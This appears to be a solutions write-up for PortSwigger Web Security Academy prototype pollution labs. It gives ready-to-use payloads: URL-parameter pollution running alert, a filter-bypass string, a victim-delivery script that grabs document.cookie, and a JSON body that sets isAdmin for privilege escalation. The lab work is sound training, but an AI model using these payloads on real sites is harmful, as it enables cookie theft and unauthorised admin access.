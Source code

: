     ?__proto__.sequence=alert%281%29-

### LAB: Client-side prototype pollution via flawed sanitization
Use DOM Invader to solve this lab using:

    /?__pro__proto__to__[transport_url]=data%3A%2Calert%281%29

### LAB: Client-side prototype pollution in third-party libraries
Use DOM Invader to find prototype pollution payload. Modify it to meet the lab's requirement and send this to the victim:

    <script>
        window.location="https://0a6200d004b7a84281d74daf003600f2.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
    </script>

### LAB: Client-side prototype pollution via browser APIs
> **Base on this example:** 
> If you use prototype pollution on the value property, then you can overwrite "property" even though it's been configured as not writable:

    Object.prototype.value='overwritten';
    let myObject = {property: "Existing property value"};
    Object.defineProperty(myObject,'property', {configurable:false,writable:false});
    alert(myObject.property);//overwritten!
> So even though the property has been made unconfigurable and unwritable, by using a prototype pollution source we can poison the descriptor used by `Object.defineProperty` to overwrite the property value. This is because if you don't specify a "value" property on the descriptor then the JavaScript engine uses the `Object.prototype`.

To solve this lab, use this payload:

    /?__proto__[value]=data:,alert(1);

### LAB: Privilege escalation via server-side prototype pollution
Notice the server updates the object via the POST request to `/my-account/change-address`. Notice the `isAdmin` property in the response. Try polluting the global `Object.prototype` with an arbitrary property as follows: 

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "t4JuEbXiKSFUOxGggk2HXTWGeGtghU8t",
        "__proto__": {
            "isAdmin": true
        }
    }
